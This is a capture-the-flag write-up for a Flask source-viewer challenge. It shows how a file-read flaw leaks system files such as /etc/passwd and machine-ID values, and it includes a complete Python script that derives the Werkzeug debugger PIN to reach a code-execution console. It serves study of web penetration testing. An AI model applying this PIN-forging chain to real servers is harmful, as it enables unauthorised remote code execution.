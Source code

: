 ![image](https://github.com/user-attachments/assets/241d061b-948f-480e-bed9-13377513643b)

# Exploration
We've been given a website that could able to view source code

![image](https://github.com/user-attachments/assets/0a62ce9c-47cc-4b4f-90c0-c5c46fa7ff2f)

let's try some normal files like the ones, exist in the website
![image](https://github.com/user-attachments/assets/e2d6017e-e371-409b-a0be-12cfeff4bf7c)

Alright, it shows some website files

Let's try some more explicit files.
![image](https://github.com/user-attachments/assets/74b40fe3-a139-4328-a81a-9d852b86e49b)

Aha, interesting.

Let's try abnormal payload.
![image](https://github.com/user-attachments/assets/8791c99b-cad4-4619-a9d2-3049caaf58ec)
![image](https://github.com/user-attachments/assets/8e9f80b8-a834-4b58-8fb6-31f2d12463e0)

This gives us plenty of information about the website. It's running on a Flask environment.

The error code also shows that there is a WSGI debugger running.

We can access it's console to run some shell commands.

![image](https://github.com/user-attachments/assets/a322bcfd-2b97-4af7-8940-1803962f3eba)

Great!, We just need a PIN. Since we can access some sensitive folder as shown above, we can easily leak data that could calculate the PIN.

# Solution
Refer to this website for more step by step details of the exploitation.

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

We need a total of 6 information
1. username
2. modname
3. app name
4. Full path of flask package
5. UUID
6. machine id

**Username**

We can get through /etc/password, therefore it's "very_secure_username"
![image](https://github.com/user-attachments/assets/74b40fe3-a139-4328-a81a-9d852b86e49b)

**Modname**

Typically is "flask.app"

**app name**

We can find this in main.py, it's "Flask".
![Screenshot 2024-12-01 165902](https://github.com/user-attachments/assets/d5b8858e-dd4e-49ab-b4c2-975fe1fb4e35)

**Full path of flask package**

The 500 internal server error gave info on that.
![Screenshot 2024-12-01 165902](https://github.com/user-attachments/assets/5714c664-153a-47d1-892b-d5ab802673f6)

**UUID**

First, check /proc/net/arp to get device ID.
![image](https://github.com/user-attachments/assets/e83b4861-e52d-4f43-bfd6-e58ddbf9758b)

Then we get UUID with this filepath, /sys/class/net/<device id>/address
![image](https://github.com/user-attachments/assets/40ecfff3-361c-447a-96a1-d66cbf3b6378)

We need to convert it into decimal strings too.
![image](https://github.com/user-attachments/assets/be7b464b-79b2-41ff-8a31-b5cd0864bc3e)

**machine id**

Get from this file, /proc/sys/kernel/random/boot_id
![image](https://github.com/user-attachments/assets/4d788847-62dd-40ab-8cde-18fb09137dc2)



Nice, after getting all information, we can calculating the PIN.

The website has already given a python code to do it. We just need to input all values into it

```
import hashlib
from itertools import chain
probably_public_bits = [
    'very_secure_username',  # username
    'flask.app',  # modname
    'Flask',  # app name
    '/usr/local/lib/python3.11/site-packages/flask/app.py'  # flask packages full path
]

private_bits = [
    '257961218066324',  # UUID
    '90eca5f1-105b-434e-ad02-135111eb1526'  # machine id
]

#h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

![image](https://github.com/user-attachments/assets/0665b09d-caec-4ac3-bd12-c9c590401f0b)

Now, just enter the PIN.

![image](https://github.com/user-attachments/assets/026ed994-412a-4fd9-8e6a-18e64365d8fc)
![image](https://github.com/user-attachments/assets/cb783a0a-6efa-4ff5-b96c-80cc5720a030)

TA_DA, we're in.

Now, just write python code to get flag.

![image](https://github.com/user-attachments/assets/c4af1f58-7850-4c88-9042-a2841359e0ec)

BINGO, that's it for this challenge.

In my opinion, this challenge is good for those for want deeper understanding of peneration testing.



